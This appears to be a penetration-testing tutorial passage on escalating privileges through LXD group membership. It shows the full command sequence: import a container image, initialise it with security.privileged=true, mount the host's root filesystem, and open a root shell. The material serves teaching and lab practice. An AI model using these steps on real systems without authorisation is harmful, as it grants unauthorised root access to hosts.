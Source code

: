 ## Containers

### Linux Containers

Linux Containers (LXC) is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a single host by owning their own processes but sharing the host system kernel for them. LXC is very popular due to its ease of use and has become an essential part of IT security.

By default, LXC consume fewer resources than a virtual machine and have a standard interface, making it easy to manage multiple containers simultaneously. A platform with LXC can even be organized across multiple clouds, providing portability and ensuring that applications running correctly on the developer's system will work on any other system. In addition, large applications can be started, stopped, or their environment variables changed via the Linux container interface.

The ease of use of LXC is their most significant advantage compared to classic virtualization techniques. However, the enormous spread of LXC, an almost all-encompassing ecosystem, and innovative tools are primarily due to the Docker platform, which established Linux containers. The entire setup, from creating container templates and deploying them, configuring the operating system and networking, to deploying applications, remains the same.
Linux Daemon

Linux Daemon (LXD) [LXD](https://github.com/lxc/lxd) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container. Before we can use this service to escalate our privileges, we must be in either the lxc or lxd group. 

We can find this out with the following command:

```bash
container-user@nix02:~$ id

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```

From here on, there are now several ways in which we can exploit LXC/LXD. We can either create our own container and transfer it to the target system or use an existing container. Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves.

```bash
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

Such templates often do not have passwords, especially if they are uncomplicated test environments. These should be quickly accessible and uncomplicated to use. The focus on security would complicate the whole initiation, make it more difficult and thus slow it down considerably. If we are a little lucky and there is such a container on the system, it can be exploited. For this, we need to import this container as an image.

```bash
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```

After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the security.privileged flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.

```bash
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the resource of the host system as root.

```bash
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
root@nix02:~# ls -l /mnt/root
```